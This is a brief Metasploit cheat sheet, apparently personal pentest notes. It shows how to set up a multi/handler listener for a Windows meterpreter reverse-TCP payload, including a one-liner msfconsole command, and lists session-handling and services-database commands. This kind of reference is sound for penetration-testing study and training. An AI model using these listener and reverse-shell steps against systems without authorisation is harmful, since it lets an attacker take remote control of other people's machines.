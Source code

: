 Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```
Or linux one-liner
```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST $interface; set LPORT 4444;exploit"
```

## Commands

```msfconsole
background		# background a session
				# OR CTRL+Z
check			# check if system is vulnerable(SOME MODULES HAVE THIS)
exploit					# launch the exploit
	-z					# background exploit when run
info <module-name> 		# display inforamtion about <module-name>
						# -j for json, -d markdown
jobs					# display jobs
	–k					# kill jobID
	
options					# displays options
search					# searches
search type:<module>  	# search by module
search name:<name>	 	# search by name

session	<number>		# switch or refer to a session
sessions				# list all sessions
	-i					# interact with session number
set						# set data for options
setg					# set global data
show	# display parametres: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options
		# module-specific: missing, advanced, evasion, targets, actions
show advanced			# show advanced options
use 			# select a module
```

## Database Access
```bash
services -h

Usage: services [-h] [-u] [-a] [-r <proto>] [-p <port1,port2>] [-s <name1,name2>] [-o <filename>] [addr1 addr2 ...]

  -a,--add          Add the services instead of searching
  -d,--delete       Delete the services instead of searching
  -c <col1,col2>    Only show the given columns
  -h,--help         Show this help information
  -s <name>         Name of the service to add
  -p <port>         Search for a list of ports
  -r <protocol>     Protocol type of the service being added [tcp|udp]
  -u,--up           Only show services which are up
  -o <file>         Send output to a file in csv format
  -O <column>       Order rows by specified column number
  -R,--rhosts       Set RHOSTS from the results of the search
  -S,--search       Search string to filter by
  -U,--update       Update data for existing service
```